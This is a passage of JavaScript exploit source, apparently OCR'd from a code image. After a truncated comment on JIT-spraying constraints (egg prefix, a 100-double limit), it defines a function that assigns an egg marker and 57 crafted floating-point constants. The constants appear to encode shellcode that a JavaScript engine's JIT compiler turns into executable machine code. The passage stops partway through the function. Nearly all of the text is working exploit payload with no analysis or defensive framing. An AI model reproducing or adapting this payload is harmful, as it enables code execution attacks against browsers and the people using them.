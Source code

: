     This then introduces another constaint on JIT spraying beyoond forcing your
    assembly bytecode to be 100% valid double floats. You are also limited to a
    maximum of 100 doubles (800 bytes) including your egg prefix.
    */

    function JITSprayFunc(){
        Egg = 5.40900888e-315; // AAAA\x00\x00\x00\x00
        X1 = 58394.27801956298;
        X2 = -3.384548150597339e+269;
        X3 = -9.154525457562153e+192;
        X4 = 4.1005939302288804e+42;
        X5 = -5.954550387086224e-264;
        X6 = -6.202600667005017e-264;
        X7 = 3.739444822644755e+67;
        X8 = -1.2650161464211396e+258;
        X9 = -2.6951286493033994e+35;
        X10 = 1.3116505146398627e+104;
        X11 = -1.311379727091241e+181;
        X12 = 1.1053351980286266e-265;
        X13 = 7.66487078033362e+42;
        X14 = 1.6679557218696946e-235;
        X15 = 1.1327634929857868e+27;
        X16 = 6.514949632148056e-152;
        X17 = 3.75559130646382e+255;
        X18 = 8.6919639111614e-311;
        X19 = -1.0771492276655187e-142;
        X20 = 1.0596460749348558e+39;
        X21 = 4.4990090566228275e-228;
        X22 = 2.6641556100123696e+41;
        X23 = -3.695293685173417e+49;
        X24 = 7.675324624976707e-297;
        X25 = 5.738262935249441e+40;
        X26 = 4.460149175031513e+43;
        X27 = 8.958658002980807e-287;
        X28 = -1.312880373645135e+35;
        X29 = 4.864674571015197e+42;
        X30 = -2.500435320470142e+35;
        X31 = -2.800945285957394e+277;
        X32 = 1.44103957698964e+28;
        X33 = 3.8566513062216665e+65;
        X34 = 1.37405680231e-312;
        X35 = 1.6258034990195507e-191;
        X36 = 1.5008582713363865e+43;
        X37 = 3.1154847750709123;
        X38 = -6.809578792021008e+214;
        X39 = -7.696699288147737e+115;
        X40 = 3.909631192677548e+112;
        X41 = 1.5636948002514616e+158;
        X42 = -2.6295656969507476e-254;
        X43 = -6.001472476578534e-264;
        X44 = 9.25337251529007e-33;
        X45 = 4.419915842157561e-80;
        X46 = 8.07076629722016e+254;
        X47 = 3.736523284e-314;
        X48 = 3.742120352320771e+254;
        X49 = 1.0785207713761078e-32;
        X50 = -2.6374368557341455e-254;
        X51 = 1.2702053652464168e+145;
        X52 = -1.3113796337500435e+181;
        X53 = 1.2024564583763433e+111;
        X54 = 1.1326406542153807e+104;
        X55 = 9.646933740426927e+39;
        X56 = -2.5677414592270957e-254;
        X57 = 1.5864445474697441e+233;